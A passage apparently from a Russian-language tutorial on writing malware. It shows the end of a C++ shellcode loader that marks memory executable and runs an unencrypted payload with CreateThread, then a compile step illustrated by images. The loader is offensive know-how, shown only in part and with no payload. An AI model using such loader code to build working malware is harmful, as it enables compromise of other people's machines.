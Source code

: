 ```cpp
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

Итак, этот код содержит самую простую логику для выполнения payload. В данном случае, для упрощения, это не зашифрованный payload, а обычный.

![payload](./images/3/2021-09-06_16-31.png){width="80%"}    

Скомпилируем его:    

![compile](./images/3/2021-09-06_16-45.png){width="80%"}    
